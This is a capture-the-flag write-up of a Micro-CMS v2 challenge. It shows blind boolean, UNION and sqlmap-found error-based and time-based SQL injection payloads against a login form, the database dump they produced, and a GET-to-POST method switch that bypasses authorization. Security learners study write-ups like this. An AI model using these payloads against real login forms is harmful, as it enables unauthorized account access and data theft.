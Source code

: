 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")
```

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields an ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields an ```Invalid password``` error. These error messages reflect the TRUE and FALSE values of the entries and can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned TRUE, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned FALSE. Using this query and testing for a length that is TRUE, it is found that the length of the password is ```7```.

Now, each character in the password can similarly be found using ```substring()```: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters against each of the 7 characters in the password and seeing if the ```Invalid password``` error is shown which means it returned TRUE, the password can be found. Write a script or use Burp Intruder to automate this.

E.g. to check if first character for an arbritrary value of ```a```: ```' or IF(substring(password,1,1)='a', TRUE, FALSE)-- ```; to check if the second character is ```b```: ```' or IF(substring(password,2,1)='b', TRUE, FALSE)-- ```; and so on until the last character i.e.```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

The ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the names of databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

```
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=
```

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

```
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema

Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | shayna   | tanesha  |
+----+----------+----------+

Database: level2
Table: pages
[3 entries]
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
```

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

(Alternate solution: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap had found.)

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

This emphasizes the fact that successful attacks most commonly emerge from unintended or unexpected input by the developer of the site. Here, a POST request is sent where a GET request is expected and bypasses security measures that exist in the expected GET request.

#### FLAG1 is captured.

All flags captured
=====
